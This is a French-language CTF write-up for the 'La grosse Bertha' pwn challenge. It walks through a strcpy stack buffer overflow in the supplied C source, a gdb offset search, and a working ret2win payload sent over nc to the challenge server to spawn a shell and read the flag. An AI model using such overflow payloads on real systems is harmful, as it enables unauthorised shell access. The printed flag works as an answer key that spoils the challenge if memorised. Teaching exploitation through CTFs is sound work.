 ```yaml
---
layout: post
title: La grosse Bertha
subtitle: Write-Up pour le NBCTF
tags: [writeup, pwn, nbctf]
comments: true
---
```

Bonjour ! Voici mon write-up sur le challenge **La grosse Bertha** à l'occasion du NoBracket CTF. Il s'agit de mon troisième write-up, alors n'hésitez pas à aller voir les autres après avoir lu celui-là !
Je ne suis d'ordinaire pas très fan de pwn, mais j'ai apprécié faire ce challenge, qui m'a remis les basiques de l'exploitation de binaire en tête. Merci donc à `MaitreChiffon` pour cela. Mais sur ce, passons au write-up !

## Premier coup d'oeil
![Challenge](https://cdn.discordapp.com/attachments/822188888297963560/1175380527801454694/Capture_decran_34.png?ex=656b056b&is=6558906b&hm=7d97a060ac7f251fb39adc2b4cdca9cbd8389c70ad9209ee41ca16cd92c5bbb0&){: .mx-auto.d-block :}

Ce challenge dispose de deux fichiers, un binaire ainsi que le code source, écrit en C, de ce binaire. Enfin, une adresse en remote est fournie avec ce challenge, pour pouvoir réaliser le challenge à distance et ainsi avoir le flag. Mais regardons le code source fourni avant de nous atteler à l'exploitation.

## Identification de la vulnérabilité
Nous nous retrouvons donc avec un fichier `TheBigBertha.c`, dont voici le code source :
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>


void shell(){

    setreuid(geteuid(),geteuid());
    system("/bin/bash");
}


void foo(char *msg){

    char buf[64];
    puts("Delta Charlie. Ordre bien reçu.");
    strcpy(buf,msg);
    printf("La cible est : %s\n", buf);
}

void init() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

int main(int argc, char **argv)
{
    init();
    puts("Entrez la cible :");
    char input[512];
    fgets(input, 511, stdin);
    if(strlen(input) > 1)
    {
        foo(input);
    }
    else{
 	puts("Veuillez entrer une chaine de caractères.");
    }

    printf("Programme is exiting normally ! \n");
    return 0;
}
```

Nous avons 4 fonctions, intitulées `shell`, `foo`, `init` et `main`. La fonction `init` ne nous intéressera pas ici. Mais nous remarquons quelque chose. Une fonction n'est jamais appelée dans le programme, et il s'agit de la fonction `shell`, qui nous permet de faire spawn un shell ! Et donc sûrement de récupérer le flag ! Nous sommes donc sur ce qu'on appelle un ret2win, c'est-à-dire que nous allons chercher à exploiter ce programme pour appeler cette fonction. Mais regardons où se situe cette vulnérabilité.
Nous pourrions tout d'abord penser qu'elle se situe dans `main`, mais aucune fonction non-sécurisée n'est appelée. En effet, ici, `fgets` est la version sûre du traditionnel `gets`. Rien à faire donc ici, puisque `fgets` récupère uniquement 511 caractères de `stdin`. 

{: .box-note}
**Note:** Et pourquoi pas 512 caractères ? Tout simplement parce que le dernier caractère est réservé au caractère nul (le fameux `\0` !)

Par la suite, la variable `input` sera passée en argument à la fonction `foo`. Nous regardons donc cette fonction, toujours à la recherche d'une vulnérabilité. Et puis là, nous voyons le problème immédiatement.

![strcpy](https://cdn.discordapp.com/attachments/822188888297963560/1175385452811931648/86h1e0.jpg?ex=656b0a01&is=65589501&hm=6cd10817881fa0e1af5e06454f1dff5a885b08fa9e422cdd209bb6f0390ecca6&){: .mx-auto.d-block :}

Et oui ! Le `strcpy` ici permet un buffer overflow. Mais comment cela se fait-il ? Eh bien, tout simplement, une variable `input` peut faire au maximum 512 caractères, et nous avons un `strcpy` dans la variable `buf`... Qui fait au maximum 64 caractères. Donc là, c'est l'overflow.
Nous pouvons vérifier ça assez simplement.
```console
blackraven@blackraven:~$ python3 -c "print('A'*64)" | ./TheBigBertha
Entrez la cible :
Delta Charlie. Ordre bien reçu.
La cible est : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Programme is exiting normally !
```
Ici, tout marche. Mais si nous mettons une taille de 100...
```console
blackraven@blackraven:~$ python3 -c "print('A'*100)" | ./TheBigBertha
Entrez la cible :
Delta Charlie. Ordre bien reçu.
La cible est : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Segmentation fault
```
Nous avons l'erreur de segmentation ! What's next ? Passons à l'exploitation !

## Exploitation

Avant toute chose, nous devons regarder l'adresse de la fonction `shell`, afin de pouvoir écraser l'adresse de retour avec l'adresse de `shell`.
Un petit tour sur `gdb` (avec bien sûr `pwndbg` et pas `peda`) nous renseigne assez vite sur l'adresse de la fonction `shell`, dont la première instruction se situe à l'adresse `0x080491f6`.

{: .box-note}
**Note:** Il ne faudra pas oublier de mettre notre adresse en little endian ! Ce qui donnera `\xf6\x91\x04\x08` !

On continue notre roadtrip sur `gdb` pour voir le padding nécessaire pour écraser le registre `EIP` avec la valeur de retour de notre adresse. Un outil très pratique, nommé `cyclic`, va nous permettre de faire cela.
![gdb](https://cdn.discordapp.com/attachments/822188888297963560/1175418096203341855/Capture_decran_35.png?ex=656b2868&is=6558b368&hm=e5eb5a6ad597aabf5c434c57efbcb28d1f1c768443daad8286283ef594e333e1&){: .mx-auto.d-block :}

Comme vous pouvez le voir, cyclic indique ici un offset de 76. On teste donc avec cette offset en utilisant python2, et non pas python3 (ce dernier a tendance à faire n'importe quoi, ce qui fait que votre payload, même si il est juste, ne marchera pas).
```console
blackraven@blackraven:~$ python2 -c 'print "A"*76+ "\xf6\x91\x04\x08" ' | ./TheBigBertha
Entrez la cible :                                                                                                                                                                                               Delta Charlie. Ordre bien reçu.                                                                                                                                                                                 La cible est : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA                                                                                                                                                                                                                                                                                                                                     Segmentation fault
```
Et... il ne se passe rien. Est-ce qu'on a fait quelque chose de mal ? Non, ça ne se voit peut-être pas, mais notre payload marche. Un shell spawn, mais se referme immédiatement ! Il faut donc rajouter une commande, comme `cat`, permettant de garder le shell en vie.
On recommence donc :
```console
blackraven@blackraven:~$ (python2 -c 'print "A"*76+ "\xf6\x91\x04\x08" '; cat) | ./TheBigBertha
Entrez la cible :                                                                                                                                                                                               Delta Charlie. Ordre bien reçu.                                                                                                                                                                                 La cible est : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA                                                                                                                                                                                                                                                                                                                                     ls                                                                                                                                                                                                              TheBigBertha  TheBigBertha.c
```
Et ça marche ! Notre payload est fonctionnel en local, donc plus qu'à flagger en remote !
![meme](https://cdn.discordapp.com/attachments/822188888297963560/1175421284990066738/86h9ua.jpg?ex=656b2b60&is=6558b660&hm=5b128794bcb338703cd29fecddb422aa9dc73366ab70f1919606146ea6ab1442&){: .mx-auto.d-block :}

## Plus qu'à flag en remote !
Il ne nous reste plus grand chose à faire maintenant. On se connecte donc en remote à `thebigbertha.nobrackets.fr` sur le port `30343`.
```console
blackraven@blackraven:~$ (python2 -c 'print "A"*76+ "\xf6\x91\x04\x08" '; cat) | nc thebigbertha.nobrackets.fr 30343
Entrez la cible :                                                                                                                                                                                               Delta Charlie. Ordre bien reçu.                                                                                                                                                                                 La cible est : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA                                                                                                                                                                                                                                                                                                                                     ls                                                                                                                                                                                                              password.txt                                                                                                                                                                                                    pwn                                                                                                                                                                                                             cat password.txt                                                                                                                                                                                                NBCTF{4_M0r3_D1FF1CU17_0V3rF10W_66}                                                                                                                                                                             exit
```

On a notre flag : `NBCTF{4_M0r3_D1FF1CU17_0V3rF10W_66}` !
Comme quoi, ça a du bon de crier "AAAAAA" sur La Grosse Bertha.

![meme2](https://cdn.discordapp.com/attachments/811715744835567616/999765823356948520/hacker.png?ex=6568e7fb&is=655672fb&hm=8dc2cd9f820ac46f47c3965e792aa67804bb8d9e64eb2f523bb27e536c921c69&){: .mx-auto.d-block :}


## Conclusion

J'ai bien aimé ce challenge, que j'ai trouvé très sympa à faire étant donné que cela rappelle les basiques et la méthodo de l'exploitation de binaire. Un petit ret2win fort sympathique, qui ne présage que du bon pour la suite de la finale !
